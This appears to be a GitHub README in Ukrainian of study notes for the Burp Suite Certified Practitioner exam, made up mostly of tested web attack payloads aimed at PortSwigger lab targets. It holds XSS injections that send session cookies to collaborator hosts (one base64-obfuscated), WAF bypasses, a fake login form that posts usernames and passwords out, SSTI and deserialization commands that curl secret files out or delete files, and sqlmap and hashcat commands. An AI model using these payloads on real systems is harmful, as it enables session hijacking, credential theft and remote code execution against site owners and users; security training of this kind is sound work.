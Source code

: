 # Burp-exam-notes

>Тут я викладу матеріали які можуть допомогти під час складання екзамену Burp Suite Certified Practitioner Exam. Частину із них я взяв [тут](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner), але як виявилось на практиці не всі вони були готові, деякі варто було допиляти, а деякі змінити, що забрало подекуди багато часу, з огляду на те, що сам екзамен триває 4 години. Тому дуже важливо мати усі ін'єкції робочі та перевірені, і не гаяти часу на їх виправлення під час самого екзамену.
>Корисні підказки для складання екзамену від [PortSwigger](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam)

----

**+eval**
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//

``` 
>тут в base64 передається 
```
fetch("https://collaborator.oastify.com/?cookie="+btoa(document['cookie']))
```
**+eval URL encode**
>тут готова ін'єкція яка повертає відповідно на колаборатор кукі, просто передати script у exploit server
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?SearchTerm=%22%2Beval(atob(%22ZmV0Y2goImh0dHBzOi8vMmNmbTZlMmFpajVmZWQ3ZXl4ZTN3Mnc0dXYwbW9oYzYub2FzdGlmeS5jb20vP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22))}%2F%2F"
</script>
```
**Function`X$**
>-Function`X$ тут у нас ін'єкція із використанням динамічних шаблонів, вміст всередині ${...} виконується під час виконання шаблону.
```
"-Function`X${'document.location="https://collaborator.oastify.com/"+document.cookie'}```-"
```
>адаптована версія із використанням Function`X$, лише передати script у exploit server для отримання cookies
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?find=%22-Function`X${'document.location=%22https://collaborator.oastify.com/%22%2Bdocument.cookie'}```-%22"
</script>
```
**XSS+cookie**
```
<script>document.location='//collaborator.oastify.com/'+document.cookie</script>
```
```
"></select><script>document.location='http://collaborator.oastify.com/?cookie='+document.cookie</script>
```
```
\"-fetch('http://collaborator.oastify.com?c='+btoa(document.cookie))}//
```
```
<><img src=1 onerror="window.location='http://collaborator.oastify.com/c='+document.cookie">
```
```
<script>document.write('<img+src="http://collaborator.oastify.com?c='+document.cookie+'"+/>');</script>
```
```
</script><script>document.location="http://collaborator.oastify.com/?cookie="+document.cookie</script>
```
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?cookie='+document.cookie tabindex=1>#x';
</script>
```
>готова ін'єкція для query параметру, якщо такий вразливий
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
```
\';document.location=`http://collaborator.oastify.com/?cookie=`+document.cookie;//
```
>викликаємо XSS через id=x, якщо задати в посиланні #x
```
<xss id=x onfocus=document.location="http://collaborator.oastify.com/?cookie="+document.cookie tabindex=1>#x
```
>ULR Encoded:
```
%3Cxss%20id=x%20onfocus=document.location=%22http://collaborator.oastify.com/?cookie=%22+document.cookie%20tabindex=1%3E#x
```
>підбір tag та event (є така лабораторна робота у portswigger)
```
<svg><animatetransform onbegin=document.location='https://collaborator.oastify.com/?cookie='+document.cookie;>
```
>URL Encoded:
```
%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://collaborator.oastify.com/?cookie='+document.cookie;%3E
```
>викликаємо XSS через натискання жертвою кнопки x. Повний вигляд такий (для гарячої клавіші shift+X):
```
https://xxxxxx.net/?'accesskey='x'onclick='document.location="https://your-collaborator-url.com/?cookie="+document.cookie' 
```
**WAF**
>трохи спробуємо обійти WAF
```
</ScRiPt ><ScRiPt >document.write('<img src="http://collaborator.oastify.com?c='+document.cookie+'" />');</ScRiPt > 
```
>і передати його у ASCII (можна використовувати цей [сервіс](https://www.allmath.com/ascii-to-text.php), досить зручний)
```
</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
```
```
"-window["alert"](window["document"]["cookie"])-"
```
```
"-self["alert"](self["document"]["cookie"])-"
```
**Angular**
>тут у нас ін'єкція яка застосовується на сторінці із використанням AngularJS. 
constructor.constructor в Angular дає доступ до глобальної функції Function, яка дозволяє створювати і виконувати JavaScript-код у шаблоні. 
```
{{constructor.constructor('document.location="http://collaborator.oastify.com?c="+document.cookie')()}}
```
**XSS+input+cookie**
>ін'єкція для викрадення паролю і логіна користувача, який скористається формою для авторизації. Звісно, сторінка повинна мати вразливість до XSS.
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://collaborator.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
**Iframe**
>частково універсальні для exploit server
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:fetch(\'https://your-collaborator-url.com/\'+document.cookie)','*')">
</iframe>
```
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://your-collaborator-url.com?cookie=${document.cookie}`)>','*')">
</iframe>
```
**SSTI**
```
<%= system("curl https://your-collaborator-url.com/$(cat /home/carlos/secret)") %>
```
```
{{request.cookies.get('session')|urlize('https://your-collaborator-url.com/?cookie=')}}
```
**Web cache poisoning /js/geolocate.js**
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location%3d'https%3a//your-collaborator-url.oastify.com/%3fcookie%3d'%2bdocument.cookie%3b
```
----
**Deserialization**
>під руками повинні бути готові команди, із робочими шляхами де лежать у вас словники або команди які не потребують додаткових налаштувань чи втурчань, а лише зміни посилання на екзамен.
```
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED -jar /path/to/file/ysoserial-all.jar CommonsCollections2 "curl https://collaborator.oastify.com -d@/home/carlos/secret" | gzip -c | base64 -w 0
```
```
/path/to/file/phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
```
**SQLMAP**
>тут шлях досить простий, копіюємо з Network із запиту на пошук "Copy as cURL", а далі лише забираємо curl і додаємо sqlmap -u.
>Зрештою, хто орієнтується із роботою sqlmap, вкурсі що до чого.
```
sqlmap -u 'cURL із Network' -p 'parametr' -batch --dbs --tables -T (тут вказати назву таблиці) --dump
```
**JWT**
```
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/Payload/[jws_secret.txt](https://github.com/Zavada-Nazarii/burp-exam-notes/blob/main/jws_secret.txt) --force
```
>і ще така штука із docker є, це лаба "JWT authentication bypass via algorithm confusion with no exposed key"
Майте собі піднятий docker і готовий образ, щоб не виправляли під час екзамену трабли із бібліотеками системи.
```
docker run --rm -it portswigger/sig2n JWT_1 JWT_2
```

